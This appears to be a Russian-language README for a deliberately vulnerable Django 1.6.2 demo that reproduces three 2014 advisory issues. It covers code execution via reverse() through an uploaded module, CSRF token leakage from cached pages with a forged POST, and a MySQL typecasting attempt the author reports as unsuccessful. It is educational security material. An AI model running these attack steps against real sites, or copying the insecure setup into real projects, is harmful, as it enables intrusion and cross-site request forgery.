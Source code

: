 ## Source URL

https://www.djangoproject.com/weblog/2014/apr/21/security/

```
$ pip install Django==1.6.2 MySQL-python==1.2.5
$ django-admin.py startproject django-vulnerable
```

## Issue: Unexpected code execution using reverse() ##


Обычный HTTP запрос


	$ curl localhost:8000

	       /\     /\
	      {  `---'  }
	      {  O   O  }  
	    ~~|~   V   ~|~~  
	       \  \|/  /   
	        `-----'__
	        /     \  `^\_
	       {       }\ |\_\_   W
	       |  \_/  |/ /  \_\_( )
	        \__/  /(_E     \__/
	          (  /
	           MM


Для успешной выполнения уязвимости злоумышленник должен использовать внедрить код.

Один из способов - уязвимая конфигурация `MEDIA_ROOT`.

```python
PROJECT_DIR = os.path.dirname(os.path.dirname(__file__))
MEDIA_ROOT = os.path.join(PROJECT_DIR, 'media')
```

Используя загрузку файла залили exploit в `MEDIA_ROOT`.

![upload expliot](https://raw.githubusercontent.com/toidi/django-vulnerable/master/contrib/upload_exploit.png "Upload exploit")


Теперь `MEDIA_ROOT` полноценный `Python package`, который можно импортировать.


       $ tree media/
       media/
       ├── __init__.py
       ├── __init__.pyc
       ├── pwn.py
       └── pwn.pyc


(`pyc` файлы появляются после эксплуатации уязвимости)


HTTP запрос злоумышленника


	$ curl localhost:8000?next=media.pwn.own

	                     .ed"""" """$$$$be.
	                   -"           ^""**$$$e.
	                 ."                   '$$$c
	                /                      "4$$b
	               d  3                      $$$$
	               $  *                   .$$$$$$
	              .$  ^c           $$$$$e$$$$$$$$.
	              d$L  4.         4$$$$$$$$$$$$$$b
	              $$$$b ^ceeeee.  4$$ECL.F*$$$$$$$
	  e$""=.      $$$$P d$$$$F $ $$$$$$$$$- $$$$$$
	 z$$b. ^c     3$$$F "$$$$b   $"$$$$$$$  $$$$*"      .=""$c
	4$$$$L        $$P"  "$$b   .$ $$$$$...e$$        .=  e$$$.
	^*$$$$$c  %..   *c    ..    $$ 3$$$$$$$$$$eF     zP  d$$$$$
	  "**$$$ec   "   %ce""    $$$  $$$$$$$$$$*    .r" =$$$$P""
	        "*$b.  "c  *$e.    *** d$$$$$"L$$    .d"  e$$***"
	          ^*$$c ^$c $$$      4J$$$$$% $$$ .e*".eeP"
	             "$$$$$$"'$=e....$*$$**$cz$$" "..d$*"
	               "*$$$  *=%4.$ L L$ P3$$$F $$$P"
	                  "$   "%*ebJLzb$e$$$$$b $P"
	                    %..      4$$$$$$$$$$ "
	                     $$$e   z$$$$$$$$$$%
	                      "*$c  "$$$$$$$P"
	                       ."""*$$$$$$$$bc
	                    .-"    .$***$$$"""*e.
	                 .-"    .e$"     "*$c  ^*b.
	          .=*""""    .e$*"          "*bc  "*$e..
	        .$"        .z*"               ^*$e.   "*****e.
	        $$ee$c   .d"                     "*$.        3.
	        ^*$E")$..$"                         *   .ee==d%
	           $.d$$$*                           *  J$$$e*
	            """""                              "$$$"


В этом случае происходим импорт модуля `media.pwn` с выполнением `import side effect`


## Issue: Caching of anonymous pages could reveal CSRF token ##

### Анатомия уязвимости

	$ curl -I localhost:8000/boom/
	HTTP/1.0 200 OK
	Date: Sun, 04 May 2014 14:58:59 GMT
	Server: WSGIServer/0.1 Python/2.7.6
	Expires: Sun, 04 May 2014 15:07:25 GMT
	Vary: Cookie
	Last-Modified: Sun, 04 May 2014 14:57:25 GMT
	Cache-Control: max-age=600
	X-Frame-Options: SAMEORIGIN
	Content-Type: text/html; charset=utf-8
	Set-Cookie:  csrftoken=EbLMgjQ9g62hzmeaEovXkhhqwIQmKst1; expires=Sun, 03-May-2015 14:57:24 GMT; Max-Age=31449600; Path=/

### Пример

0. Пример кода с view

1. Представим ситуацию. Жертва - постоянный анонимный пользователь сайта.

  ```
  $ curl localhost:8000/boom/
  7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc
  ```

2. У злоумышленника есть сайт и механизм(бот), который ходит на сайт жертвы и получает куки анонимов из кэша

3. (прил) пользователь заходит на сайт злоумышленника и там выполняется AJAX запрос аналогичный

  ```
  $ curl --request POST \
	--cookie "csrftoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	--data "csrfmiddlewaretoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	localhost:8000/boom/
  BOOM!
  ```

## Issue: MySQL typecasting

Попытаемся разобраться о чем идет речь


	>>> query_obj = CVE_2014_0474_Blacklist.objects.filter(ip=192.168)
	>>> print query_obj.query
	SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192.168

	mysql> SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192.168;
	+----+---------------+
	| id | ip            |
	+----+---------------+
	|  2 | 192.168.0.1   |
	|  3 | 192.168.83.17 |
	+----+---------------+
	2 rows in set, 3 warnings (0,01 sec)


Варианты использования:

У злоумышленника появился доступ к очереди(например RabbitMQ) celery.

Celery сериализует аргументы функций. Можно сериализовать число туда, где приложение ожидает строку.

Потенциальная атака: попытаемся удалить всю подсетку из фаервола:


	>>> query_obj.delete()
	Traceback (most recent call last):
	  File "<console>", line 1, in <module>
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 465, in delete
	    collector.delete()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/deletion.py", line 260, in delete
	    qs._raw_delete(using=self.using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 476, in _raw_delete
	    sql.DeleteQuery(self.model).delete_qs(self, using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/subqueries.py", line 85, in delete_qs
	    self.get_compiler(using).execute_sql(None)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/compiler.py", line 782, in execute_sql
	    cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 69, in execute
	    return super(CursorDebugWrapper, self).execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 53, in execute
	    return self.cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/mysql/base.py", line 124, in execute
	    return self.cursor.execute(query, args)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 207, in execute
	    if not self._defer_warnings: self._warning_check()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 117, in _warning_check
	    warn(w[-1], self.Warning, 3)
	Warning: Truncated incorrect DOUBLE value: '127.0.0.1                                    '


От успешной эксплуатации уязвимости спасает то, что MySQL выдает предупреждения, а Django воспринимает их как ошибки и предотвращает выполнение запроса.


	mysql> SHOW WARNINGS;
	+---------+------+-----------------------------------------------------------------------------------+
	| Level   | Code | Message                                                                           |
	+---------+------+-----------------------------------------------------------------------------------+
	| Warning | 1292 | Truncated incorrect DOUBLE value: '127.0.0.1                                    ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.0.1                                  ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.83.17                                ' |
	+---------+------+-----------------------------------------------------------------------------------+
	3 rows in set (0,00 sec)


На этом я решил остановиться. Эксплуатировать уязвимость не получилось.

Заинтересованным можно попробовать продолжить разные комбинации MySQL и Python коннектора для успешной выполнения атаки.
